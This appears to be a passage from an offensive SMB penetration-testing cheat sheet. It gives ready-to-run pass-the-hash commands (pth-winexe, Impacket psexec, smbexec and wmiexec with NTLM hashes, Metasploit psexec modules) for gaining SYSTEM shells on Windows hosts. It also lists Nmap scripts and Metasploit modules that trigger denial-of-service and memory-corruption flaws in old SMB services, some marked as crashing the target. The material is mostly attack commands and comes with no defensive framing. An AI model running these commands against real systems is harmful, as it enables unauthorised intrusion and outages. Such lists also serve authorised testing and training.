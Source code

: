 ```bash
pth-winexe -U Domain\\Username%Hash //10.10.x.x “cmd.exe” –system

#Metasploit Framework
exploit/windows/smb/psexec
exploit/windows/smb/psexec_psh

#Impackets
python psexec.py Domain/Username@10.10.x.x -hashes Hash
python smbexec.py Domain/Username@10.10.x.x -hashes Hash
python wmiexec.py Domain/Username@10.10.x.x -hashes Hash
```

## Common SMB Vulnerabilities

## DOS vulnerabilities using this service can be detected.

```bash
'MS09-050: Microsoft Windows SMB2 _Smb2ValidateProviderCallback() Vulnerability (975497) (uncredentialed check) [CVE-2009-2526]'
#Nmap Scripts:
smb-vuln-cve2009-3103

#Metasploit Framework:
auxiliary/dos/windows/smb/ms09_050_smb2_negotiate_pidhigh

'MS10-006: Vulnerabilities in SMB Client Could Allow Remote Code Execution (978251)'
#Metasploit Framework:
auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop

'MS10-054: Vulnerabilities in SMB Server Could Allow Remote Code Execution (982214) [CVE-2010-2551] [CVE-2010-2552]'
#Nmap Scripts: (Remote Memory Corruption. Result is BSOD -> DANGEROUS)
smb-vuln-ms10-054 –script-args unsafe=1

'Service regsvc vulnerability [CVE-2010-2550]'
#Nmap Scripts:
smb-vuln-regsvc-dos

'SMB DOS'
#Nmap Scripts:
smb-flood –script-args smbdomain=Domain,smbuser=Username,smbpass=Password
```

## Various vulnerable systems using this service can be detected.

```bash
'MS03-026: Buffer Overrun In RPC Interface Could Allow Code Execution (823980) [CAN-2003-0352]'
***

'MS06-025: Vulnerability in Routing and Remote Access Could Allow Remote Code Execution (911280) [CVE-2006-2370]'
#Nmap Scripts: (Buffer overflow in RRAS)
smb-vuln-ms06-025 –script-args unsafe=1

'MS06-040: Vulnerability in Server Service Could Allow Remote Code Execution (921883) (uncredentialed check) [CVE-2006-3439]'
***

'MS07-029: Vulnerability in Windows DNS RPC Interface Could Allow Remote Code Execution (935966) [CVE-2007-1748]'
#Nmap Scripts: (Buffer overflow which can crash the RPC intrface in the DNS Server)
```